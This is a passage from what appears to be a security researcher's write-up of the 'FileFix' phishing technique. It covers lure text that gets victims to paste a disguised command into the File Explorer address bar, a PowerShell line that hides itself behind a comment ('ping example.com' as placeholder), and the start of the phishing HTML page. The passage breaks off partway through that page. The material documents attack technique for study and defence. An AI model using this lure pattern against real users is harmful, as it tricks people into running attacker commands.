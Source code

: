 # FileFix Attack

Since we now know that it's possible to execute commands via the File Explorer address bar through the browser's file upload functionality, we need pretext to get the user to paste our command there. Given that File Explorer is commonly associated with accessing files, our phishing page can claim that a file has been shared with the user and instruct them to use the address bar in File Explorer to locate it.

The phishing page includes an "Open File Explorer" button that, when clicked, launches File Explorer through the file upload functionality and copies the PowerShell command to the clipboard. Conveniently enough, the address bar can be auto-higlighted using `CTRL + L` or `ALT + D`, so we'll make sure we mention this in our instructions. Our instructions will be as follows:

```md
To access the file, follow these steps:

1. Copy the file path below:

   `C:\company\internal-secure\filedrive\HRPolicy.docx`

2. Open File Explorer and select the address bar (CTRL + L)

3. Paste the file path and press Enter
```

Additionally, our PowerShell command will concatenate the dummy file path after a comment in order to hide the command and show the file path instead.

```
Powershell.exe -c ping example.com # C:\\company\\internal-secure\\filedrive\\HRPolicy.docx
```

With that said, here's the final HTML page:

```html
<!DOCTYPE html>
<head>
  <title>mr.d0x shared a file with you</title>
  <style>
    body {
      background-color: #f2f2f2;
      font-family: 'Segoe UI', sans-serif;
      margin: 0;
      padding: 40px 0;
      display: flex;
      justify-content: center;
      align-items: flex-start;
      min-height: 100vh;
    }

    .container {
      background-color: #ffffff;
      width: 560px;
      border-radius: 6px;
      box-shadow: 0 4px 10px rgba(0, 0, 0, 0.1);
      border: 1px solid #dcdcdc;
      text-align: center;
    }

    .header {
      padding: 40px 30px 10px;
    }

    .header img {
      width: 36px;
      margin-bottom: 25px;
```